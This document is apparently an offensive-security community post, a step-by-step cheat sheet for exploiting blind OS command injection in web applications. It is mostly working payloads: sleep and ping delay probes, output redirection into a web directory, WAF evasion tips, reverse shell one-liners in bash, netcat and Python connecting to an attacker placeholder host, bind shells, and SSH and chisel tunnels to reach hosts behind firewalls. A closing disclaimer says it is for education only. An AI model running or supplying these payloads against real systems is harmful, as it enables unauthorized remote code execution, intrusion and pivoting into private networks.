 
# 🎩 Blind OS Command Injection: The Ultimate Mega-Guide

* 🚀 Created for Hack Tools Dark Community — Deep Offensive Security Knowledge*

---

## Contents
- [1. Basic Detection of Blind OS Command Injection](#1-basic-detection-of-blind-os-command-injection)
- [2. Output Redirection to Capture Command Results](#2-output-redirection-to-capture-command-results)
- [3. Elevating to Reverse Shells](#3-elevating-to-reverse-shells)
- [4. Using Bind Shells When Reverse Shells Fail](#4-using-bind-shells-when-reverse-shells-fail)
- [5. Bonus Pro Tip: Port Forwarding to Reach Hidden Bind Shells](#5-bonus-pro-tip-port-forwarding-to-reach-hidden-bind-shells)

---

## 1. Basic Detection of Blind OS Command Injection

Look for injectable points by submitting payloads that cause delays:

**Example Payloads:**
```bash
test@example.com & sleep 5 #
```
```bash
test@example.com | ping -c 5 127.0.0.1 #
```

**Success indicator:** The server response is delayed by about 5 seconds.

---

## 2. Output Redirection to Capture Command Results

**Step 1: Find a file-loading endpoint**
```bash
/image?filename=xyz
```

**Step 2: Inject payload to redirect command output**
```bash
xyz & whoami > /var/www/images/output.txt #
```

**Step 3: Retrieve output**
```bash
/image?filename=output.txt
```

**Tip:** Adapt filesystem paths according to the webserver setup.

**Filter Evasion Tricks:**
- Use `${IFS}` instead of spaces.
- Base64 encode payloads.
- Chain commands using `&&`, `|`, or backticks.
- Bypass WAF signatures with obfuscation.

---

## 3. Elevating to Reverse Shells

**Step 1: Start a listener**
```bash
nc -lvnp 4444
```

**Step 2: Inject reverse shell payload**

**Example Bash reverse shell:**
```bash
photo.png & bash -i >& /dev/tcp/YOUR_IP/4444 0>&1 #
```

**Example Netcat reverse shell:**
```bash
photo.png & nc YOUR_IP 4444 -e /bin/bash #
```

**Example Python reverse shell:**
```bash
photo.png & python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR_IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);' #
```

**Shell Stabilization:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
reset
export TERM=xterm
```

---

## 4. Using Bind Shells When Reverse Shells Fail

When reverse shells are blocked, create a bind shell on the target.

**Bind shell payload with Netcat:**
```bash
photo.png & nc -nlvp 4444 -e /bin/bash #
```

Then connect from your machine:
```bash
nc TARGET_IP 4444
```

If bind shell only listens locally, proceed to Port Forwarding.

---

## 5. Bonus Pro Tip: Port Forwarding to Reach Hidden Bind Shells

If you can't reach the bind shell directly:

**Option 1: SSH port forwarding**
```bash
ssh -L 5555:localhost:4444 user@victim_ip
nc 127.0.0.1 5555
```

**Option 2: Chisel tunnel**
```bash
# On attacker:
chisel server -p 8000 --reverse

# On victim:
chisel client YOUR_IP:8000 R:5555:127.0.0.1:4444

# Connect:
nc 127.0.0.1 5555
```

**Result:** You gain shell access even behind NAT/firewall/internal networks!

---

## ⚠️ Disclaimer

This guide is intended for **educational purposes only**.  
Unauthorized testing or exploitation is illegal. Always have **explicit permission** before engaging in any security testing.

---

## 💬 Join the Ultimate Discussion!

Which command injection techniques, pivoting tricks, or shell payloads do you prefer?  
Share your expertise, custom payloads, and success stories with Hack Tools Dark Community!

---

## 📚 Recommended Resources
- [PortSwigger OS Command Injection Academy](https://portswigger.net/web-security/os-command-injection)
- [PayloadsAllTheThings - Command Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [HighOnCoffee - Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [HackTricks - Port Forwarding & Pivoting](https://book.hacktricks.xyz/network-services-pentesting/port-forwarding-and-pivoting)

---

#hacking #pentesting #bugbounty #cybersecurity #infosec #redteam #rce #bindshell #portforwarding #pivoting #commandinjection #websecurity
